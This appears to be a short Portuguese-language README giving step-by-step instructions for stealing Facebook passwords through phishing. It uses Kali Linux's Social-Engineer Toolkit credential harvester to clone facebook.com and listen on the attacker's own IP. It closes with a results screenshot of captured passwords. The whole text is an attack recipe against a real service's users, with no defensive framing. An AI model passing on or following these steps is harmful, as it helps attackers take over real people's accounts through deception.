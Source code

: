 # Phishing para captura de senhas do Facebook  

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- No kali Linux entra no terminal com ``` sudo su ```
- Executar setookit: ``` setoolkit ```
- Escolher primeira opção: ``` 1)Social-Engineering Attacks ```
- Agora segunda opção: ``` 2)Web Site Attack Vectors ```
- Selecionar opção: ``` 3)Credential Harvester Attack Method ```
- Agora clonar o site opção: ``` 2)Site Cloner ```
- Verificar o ip da maquina para escutar: ``` ifconfig ```
- Agora clone o site no set:webattack> Enter the url to clone: http://www.facebook.com

### Resutados

![Alt text](./image senha.png "Optional title")
